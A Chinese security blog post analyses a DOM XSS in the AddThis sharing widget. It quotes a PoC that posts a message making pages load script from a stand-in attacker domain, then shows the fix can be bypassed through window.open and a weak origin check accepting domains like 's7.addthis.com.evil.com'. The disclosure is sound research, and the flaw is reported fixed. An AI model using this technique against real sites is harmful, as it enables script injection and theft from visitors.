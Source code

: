 title: "分享插件AddThis导致的DOM XSS"
date: 2016-12-25 14:03:41
tags: ["安全", "XSS"]

---

## 背景

说明：这个漏洞是 https://labs.detectify.com/2016/12/15/postmessage-xss-on-a-million-sites/ 修复的绕过，目前已经报告给AddThis并得到修复。

> AddThis是由多姆·沃纳伯格（Dom Vonarburg）创立并由Clearspring公司拥有的一个社会性书签服务。它可以与网站进行整合，访客即可用它将网站上的某些内容通过其他网络服务收藏或分享，诸如Facebook、MySpace、Google书签、Twitter等
> From https://zh.wikipedia.org/wiki/AddThis

使用的例子有：

![](http://ww4.sinaimg.cn/large/7184df6bgw1fb30n0dmyqj20nd08o0wd.jpg)

![](http://ww4.sinaimg.cn/large/7184df6bgw1fb30nhwnasj20rq0bddho.jpg)

## 分析

使用这款插件，需要在网页上加入类似以下的代码

```html
<!-- Go to www.addthis.com/dashboard to customize your tools -->
<script src="//s7.addthis.com/js/300/addthis_widget.js#pubid=ra-538ceb912f1cca19" async="async"></script>
```

当插件加载完成后，就会监听`message`事件。

![](http://ww3.sinaimg.cn/large/7184df6bgw1fb3110ele5j21340em79m.jpg)

看完前面提到的那篇文章之后，我们可以知道在这个事件处理函数中，如果`message`事件处理函数接收到一个 *合法来源* 的消息，消息内容如下：`at-share-bookmarklet://example.com/xss.js`时，就会动态在页面中插入指定的JS脚本。之前的漏洞是在这里根本没有检查消息的来源就直接加载执行导致了DOM XSS，原先的PoC：

```html
<iframe id="frame" src="https://targetpage/using_addthis"></iframe>

<script>
document.getElementById('frame').contentWindow.postMessage('at-share-bookmarklet://ATTACKERDOMAIN/xss.js', '*');
</script>
```

AddThis对这个漏洞进行的修复如下：
1. 添加检查当前窗口是不是被嵌套在：`iframe`, `frame`等标签里，如果是，则不监听`message`事件。
2. 检查来源

修复后的代码如下：

```js
, c = window.parent === window;
...
c && u(window, "message", function(e) {
  if (e) {
      var t = _atr.substring(0, _atr.length - 1)
        , n = e.origin.indexOf(t) === "https:".length || e.origin.indexOf(t) === "http:".length || /^https?:\/\/(localhost:\d+|localhost$)/.test(e.origin)
        , o = "string" == typeof e.data;
      if (o && n) {
          var a = e.data.match(/at\-share\-bookmarklet\:(.+?)$/) || []
            , i = a[1];
          if (i) {
              try {
                  _ate.menu.close()
              } catch (s) {}
              r(i)
          }
      }
  }
})
```

1. 其中`_attr`的值为`//s7.addthis.com/`，那么`t`的值就是`//s7.addthis.com`
2. `e.origin`是调用了`postMessage`这个API的来源
3. 什么时候`o && n`的值会是真呢？例如站点：`http://s7.addthis.com/`向目标站点发送消息的时候

但这个修复真的没有问题了吗？在使用postMessage进行跨域通信的时候，有以下几种场景：

1. 父窗口与iframe，frame等标签里的子网页进行通信，即上面那个PoC
2. 使用window.open打开一个新的窗口

  ```js
  var win = window.open("http://target.com/index.html");
  win.postMessage("this is a message", "*");
  ```

  `http://target.com/index.html`这个页面就可以监听`message`事件获取到以上的消息。


也就是说，对于一个安装了这个插件的目标站点，我们依旧可以通过方法2发送一个消息给他。另外，这里的域名检查也不完善，简单的说，只要是`s7.addthis.com`开头的域名都是合法的，如`s7.addthis.com.evil.com`

```js
> e.origin = 'http://s7.addthis.com.evil.com'
> e.origin.indexOf(t) === "http:".length
< true
```

